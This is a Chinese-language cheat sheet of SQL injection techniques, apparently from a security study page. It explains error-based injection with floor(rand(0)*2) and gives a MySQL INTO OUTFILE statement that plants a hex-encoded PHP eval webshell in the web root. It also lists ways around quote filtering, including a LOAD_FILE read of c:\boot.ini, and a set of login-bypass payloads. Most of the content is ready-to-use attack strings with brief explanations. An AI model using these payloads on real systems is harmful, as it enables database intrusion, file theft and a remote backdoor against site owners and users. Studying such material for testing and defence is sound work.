 #### rand(0)\*2 报错原理

`select count(*),concat((select database()),floor(rand(0)*2))a from information_schema.tables group by a`

`floor(rand(0)*2):011011011`

`插入相同值, 第二次计算不同: 保证在开始的查询结果中, 不能让虚表中存在0, 1键值`

1. 首先建立了一个虚表

2. 取第一条数据，执行 floor(rand(0) \* 2)，结果为 0（**第一次计算**），查询虚表，发现键值 0 不存在，在进行一次计算，结果为 1（**第一次插入**），插入到表中；

3. 取出第二条数据，执行 floor(rand(0) _ 2)，结果为 1（**第二次计算**），查询虚表，记录存在，直接 count(_)加一；

4. 取出第三条数据，执行 floor(rand(0) \* 2)，结果为 0（**第三次计算**），查询虚表，发现不存在键值 0，在进行一次计算，结果 1(**第二次插入**)，插入到虚表中作为虚表的主键，与之前的 1 冲突，这时候就会报错了。

#### SQLI 如何写 shell

> MySQL

    select 0x3c3f706870206576616c28245f504f53545b277a275d293b3f3e,2,3,4 from mysql.user into outfile '/var/www/html/z.php';

1. 需要知道 Web 目录的绝对路径
2. 需要 mysql 用户有 file 权限，file 权限限制在 MySQL 服务器上读写文件。grant file on _._ to root@localhost
3. 因为执行时以 mysql 用户去执行，所以 mysql 用户需要有 Web 目录的写权限
4. 有代码执行位置(可控位置)

#### SQLI 单引号'被过滤怎么办

    编码 unicode hex
    GBK
    `
    函数 char

    有很多使用字符串的方法，但是这几个方法是一直可用的。使用CHAR()(MS)和CONCAT()(M)来生成没有引号的字符串
    0x457578 (M) - 16进制编码的字符串
    SELECT 0x457578
    这在MySQL中会被当做字符串处理
    在MySQL中使用16进制字符串的一个简单方式： SELECT CONCAT('0x',HEX('c:\\boot.ini'))
    在MySQL中使用CONCAT()函数： SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77)) (M)
    这会返回'KLM'
    SELECT CHAR(75)+CHAR(76)+CHAR(77) (S)
    这会返回'KLM'

    eg:
        M:SELECT LOAD_FILE(0x633A5C626F6F742E696E69)

#### 绕过登陆界面(SMO+)

    SQL注入101式(大概是原文名字吧？),登陆小技巧
    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
    ....
    以不同的用户登陆 (SM*) ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
    **旧版本的MySQL不支持union*
